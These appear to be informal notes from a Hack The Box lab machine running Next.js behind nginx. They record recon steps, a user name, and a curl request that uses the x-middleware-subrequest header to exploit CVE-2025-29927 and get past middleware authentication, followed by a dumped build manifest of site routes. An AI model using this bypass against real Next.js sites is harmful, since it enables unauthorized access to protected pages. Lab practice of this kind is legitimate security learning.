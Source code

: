 ___



linux machine

port 80 and 22 ssh the web server is nginx



*jeremy a user?*
jeremy@previous.htb


*this box is running next-js is gonna have shit to do with it*


http%3A%2F%2Flocalhost%3A3000%2Fdocs
http://localhost:3000/docs




*interesting callback redirects to localhost if /api but get prompted to login*


burp see where login post is

dirsearch
check .git



 *I think this gonna b cve*
# Understanding CVE-2025-29927: The Next.js Middleware Authorization Bypass Vulnerability



https://github.com/DataDog/security-labs-pocs/tree/main/proof-of-concept-exploits/nextjs-cve-2025-29927



```
curl --request GET \
  --url http://localhost:3000/private \
  --header 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware'
```


this works I bypass auth


*okay time to start reading those files under _next -> some interesting shit*



let r=new URL("http://localhost:3000/api/auth");


var t="/api/auth/signin?"



*sorted pages*

__routerFilterDynamic:{numItems:s,errorRate:1e-4,numBits:s,numHashes:n,bitArray:[]},"/":["static/chunks/pages/index-a09f42904785092c.js"],"/_error":["static/chunks/pages/_error-41608b100cc61246.js"],"/docs":[e,t,"static/chunks/pages/docs-5f6acb8b3a59fb7f.js"],"/docs/components/layout":[e,t,"static/chunks/pages/docs/components/layout-79ce7edc85dbc179.js"],"/docs/components/sidebar":[e,"static/chunks/pages/docs/components/sidebar-0302befb549e0142.js"],"/docs/content/examples":["static/chunks/pages/docs/content/examples-e4a3a28759c69901.js"],"/docs/content/getting-started":["static/chunks/pages/docs/content/getting-started-7dd61d428f6ada5c.js"],"/docs/[section]":[e,t,"static/chunks/pages/docs/[section]-31d8b831c1e60f26.js"],"/signin":[t,"static/chunks/pages/signin-d0284ed11872b445.js"],sortedPages:["/","/_app","/_error","/docs","/docs/components/layout","/docs/components/sidebar","/docs/content/examples","/docs/content/getting-started","/docs/[section]","/signin"]}}(0,"static/chunks/8-fd0c493a642e766e.js","static/chunks/0-c54fcec2d27b858d.js",1e-4,NaN),self.__BUILD_MANIFEST_CB&&self.__BUILD_MANIFEST_CB();

